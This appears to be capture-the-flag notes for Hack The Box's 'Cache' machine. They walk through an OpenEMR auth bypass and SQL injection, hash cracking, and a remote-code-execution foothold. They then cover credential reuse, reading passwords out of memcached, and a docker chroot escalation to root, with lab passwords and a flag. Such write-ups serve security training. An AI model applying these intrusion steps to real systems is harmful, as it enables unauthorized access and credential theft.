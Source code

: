 * Cache
** Enumeration
** Foothold

~cache.htb~ seems to be not that interesting, but a clue of the author pages suggests looking for another project: ~hms~. Sure enough, adding ~hms.htb~ to ~/etc/hosts~ reveals another VHOST page.

~dirsearch~ reveals a lot of stuff we can directly infiltrate, but none seems immediately useful.

Two example patients:
hamming:pass
davis:pass
Official users:
phimail-service:NoLogin
portal-user:NoLogin

Fortunately, 'OpenEMR' seems to be riddled with holes: https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf

The discussed auth-bypass works, as does the SQLI, which allows the dumping of a bunch of tables:
 * users
 * globals
 * users_secure

The latter has a bcrypt-hashed password for ~openemr_admin~, but ~john~ cracks it: ~xxxxxx~

The hylafax RCE attack from ^ works to get a shell as ~www-data~

** Escalation

*** ash

upload ~socat~, upgrade terminal, and ~su ash~ with previously found creds: H@v3_fun

*** luffy

localhost 11211 is running memcached, so there's bound to be something useful stored there

extracting all items from memcached: https://ma.ttias.be/read-keys-values-memcached-instance/

~stats slabs~

stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]

get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
get link
VALUE link 0 21
https://hackthebox.eu
END
get file
VALUE file 0 7
nothing
END
get account
VALUE account 0 9
afhj556uo


*** root

~luffy~ has access to docker!

~docker image inspect~ on the defined image shows a defined command:

running that command provides a root shell:

~docker exec -it 744adf chroot /mnt sh~

ROOT: d941357574c5becbb930738f34e4b945
